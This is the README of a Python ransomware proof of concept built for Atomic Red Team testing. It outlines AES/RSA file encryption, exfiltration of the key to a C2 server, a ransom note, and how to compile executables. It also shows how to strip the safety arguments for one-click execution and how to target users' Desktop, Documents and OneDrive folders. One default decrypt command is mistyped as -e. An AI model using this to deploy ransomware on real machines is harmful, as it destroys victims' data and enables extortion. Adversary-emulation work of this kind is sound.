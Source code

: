 # Ransomware-PoC
A simple python ransomware PoC that can be used for Atomic Red Team: **ATT&CK Technique: Data Encrypted for Impact (T1486)**. The project is built off [CryptSky](https://github.com/deadPix3l/CryptSky) and full credits goes to deadPix3l for his code. The updated code demonstrates a typical ransomware flow and it is just one of many ways to perform ransomware encryption.

 TLDR:
 1. Generates AES key to encrypt local file (hardcoded in PoC).
 2. The attacker's embedded RSA public key (intentionally hardcoded in PoC) is used to encrypt the AES key. The private key is already stored in the attacker's C2 server. The encrypted text is sent to the C2 server and displayed for the victim.
 3. Ransom note is shown. When the ransom is paid, a decryptor is provided. 
 
**Warning**: Be extra careful of running the program as it will modify files. Ensure the path is correct and be wary in running with administrative privileges.

# Supported
* python3 (python2 for Linux/macOS should work)
* Windows, Linux and macOS

# Versions
There are two versions:

Version 1: main.py
- Basic version - Terminal Only

Version 2: main_v2.py
- Advanced version
- Only works with Windows and Linux (no tkinter on macOS)
- Ransom note pop up
- Exfiltrate key back to C2 given domain and port

# How to run
Install dependencies:
```bash
pip3 install pycryptodome
```

Default:
```
Encrypt: python3 main.py -e or python3 main_v2.py -e
Decrypt: python3 main.py -d or python3 main_v2.py -e
```

Windows with specific path:
```
Encrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux/macOS with specific path:
```
Encrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -e
Decrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -d
```

Variables to change:
* Ransomware Extension [default: .wasted for WastedLocker]
* AES Key
* RSA Public key
* RSA Private key (to be removed). Only used for decryptor.
* Domain and port for exfiltration (main_v2)
* 

NB: As this is simply a PoC for Atomic Red Team, there is no real need to change the keys or other variables.

# Standalone Executable
Tested with python 2.7 with pyinstaller 3.6 and python 3.7 with pyinstaller 4.0. Please note that python 3.8 with pyinstaller 4.0 have known issues as this was incompatible with macOS.

Windows and Linux:
```bash
pip3 install pyinstaller
pyinstaller --onefile main_v2.py or py -m PyInstaller --onefile main_v2.py
```

macOS:
```
(python 3.7)
python3 -m pip install pyinstaller
pyinstaller --onefile main_v2.py

(python 2.7)
pip install -I pyinstaller==3.6
python -m PyInstaller --onefile main_v2.py
```

See `/bin` folder for binaries.

Windows with specific path:
```
Encrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux with specific path:
```
Encrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -e
Decrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -d
```

macOS with specific path:
```
Encrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -e
Decrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -d
```

## Miscellaneous 
### One-click execution

I originally added arguments to prevent accidental clicks and mess up. To simulate a one-click malware, comment and uncomment the following:

Comment
```python
if len(sys.argv) <= 1:
    print('[*] Ransomware - PoC\n')
    # banner()        
    print('Usage: python3 main.py -h')
    print('{} -h for help.'.format(sys.argv[0]))
    exit(0)

# Parse arguments
args = parse_args()
encrypt = args.encrypt
decrypt = args.decrypt

absolute_path = str(args.path)
 ```   

Uncomment
```python
absolute_path = "None"
encrypt = True 
decrypt = False
```

### Multiple folders
There is support for multiple paths, add them as such:

```python
startdirs = [os.environ['USERPROFILE'] + '\\Desktop', 
                        os.environ['USERPROFILE'] + '\\Documents',
                        os.environ['USERPROFILE'] + '\\Music',
                        os.environ['USERPROFILE'] + '\\Desktop',
                        os.environ['USERPROFILE'] + '\\Onedrive']
```

# Demo
![Ransomware-PoC](/demo/download.gif)

![main_v2-PoC](/demo/main_v2.png)


# Additional Features
* Added RSA asymmetric encryption of the AES key.
* Added autodetection on Windows, Linux or macOS.
* Added path argument to specify a directory.
* Fixed handling of renaming files with adding/removing of the ransomware extension.
* Added ransomware note pop up.
* Added exfiltration of key back to C2.

# Credit
- [CryptSky](https://github.com/deadPix3l/CryptSky) (deadPix3l and contributors) for base project
- [Demonware (Cerberus)](https://github.com/StrangerealIntel/Cerberus/blob/abd7d069edc2009a33ae1102f54abc935452e766/Demonware/2020-09-15/Demonware.py)  (StrangerealIntel) for ransom image and exfiltration
